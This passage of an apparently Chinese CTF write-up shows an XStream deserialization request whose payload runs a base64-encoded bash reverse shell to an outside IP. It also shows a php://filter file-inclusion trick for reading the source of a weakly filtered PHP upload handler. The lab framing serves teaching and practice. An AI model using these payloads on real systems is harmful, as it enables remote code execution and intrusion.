 ```http request
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://vul-xs-ctf.dun.mi.com/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9

<sorted-set>
    <string>foo</string>
    <dynamic-proxy>
        <interface>java.lang.Comparable</interface>
        <handler class="java.beans.EventHandler">
            <target class="java.lang.ProcessBuilder">
                <command>
                          <string>/bin/bash</string>
                          <string>-c</string>
                          <string>
{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4yMzUuNDguMzYvODIxMiAwPiYx77u/}|{base64,-d}|{bash,-i}
</string>
                </command>
            </target>
            <action>start</action>
        </handler>
    </dynamic-proxy>
</sorted-set>
```

在项目目录就可以看到了flag文件了。

### web-3 简单文件包含

先尝试一些协议，phpinput都无法使用，先用base64获取到upload.php源码

```php
# /index.php?file=php://filter/read=convert.base64-encode/resource=upload.php

<?php
        if(isset($_FILES['upfile'])){
                $uploaddir = 'uploads/';
                $uploadfile = $uploaddir . basename($_FILES['upfile']['name']);
                $ext = pathinfo($_FILES['upfile']['name'],PATHINFO_EXTENSION);

                //检查文件内容
                $text = file_get_contents($_FILES['upfile']['tmp_name']);


                echo $ext;

                //检查文件后缀
                if (!preg_match("/ph.|htaccess/i", $ext)){

                        if(preg_match("/<\?php/i", $text)){
                                echo "你的文件内容有恶意代码<br>";
                        }
                        else{
                                move_uploaded_file($_FILES['upfile']['tmp_name'],$uploadfile);
                                echo "上传成功<br>路径为:" . $uploadfile . "<br>";
                        }
                } 
                else {
                        echo "恶意后缀<br>";
                        
                }
        }
?>
```